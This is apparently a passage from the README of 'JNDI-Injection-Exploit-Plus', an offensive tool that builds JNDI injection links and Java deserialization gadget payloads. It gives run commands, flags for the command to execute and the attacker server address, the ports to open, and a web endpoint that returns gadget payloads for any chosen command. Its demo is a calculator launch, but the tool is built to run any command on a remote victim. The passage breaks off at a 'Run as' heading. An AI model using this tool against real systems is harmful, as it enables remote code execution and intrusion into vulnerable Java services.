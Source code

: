 - Example

```shell
$ java -jar JNDI-Injection-Exploit-Plus-2.3-SNAPSHOT-all.jar -C "open -a Calculator" -D Jdk7u21 -F
```

Reference: [https://www.leavesongs.com/PENETRATION/utf-8-overlong-encoding.html](https://www.leavesongs.com/PENETRATION/utf-8-overlong-encoding.html)

#### Web service to return Deserial Gadgets

```shell
java -jar JNDI-Injection-Exploit-Plus-2.3-SNAPSHOT-all.jar
```

```shell
POST /deserial/{Gadget}

cmd={command}&wrapper={wrapper}output={base64/hex}
```

P.S. Param wrapper & output is opetional

![](./img/5.png)

## Usage

### JNDI Links

Run as

```shell
$ java -jar JNDI-Injection-Exploit-Plus-2.3-SNAPSHOT-all.jar [-C] [command] [-A] [address]
```

where:

- **-C** - command executed in the remote classfile.

  (optional , default command is "open /Applications/Calculator.app")

- **-A** - the address of your server, maybe an IP address or a domain.

  (optional , default address is the first network interface address)

Points for attention:

- make sure your server's ports (**1099**, **1389**, **8180**) are available .

  or you can change the default port in the run.ServerStart class.

- your command is passed to **Runtime.getRuntime().exec()** as parameters, 

  so you need to ensure your command is workable in method exec().
  
  **Command in bash like "bash -c ...." need to add Double quotes.**

### Deserialization Payloads

Run as
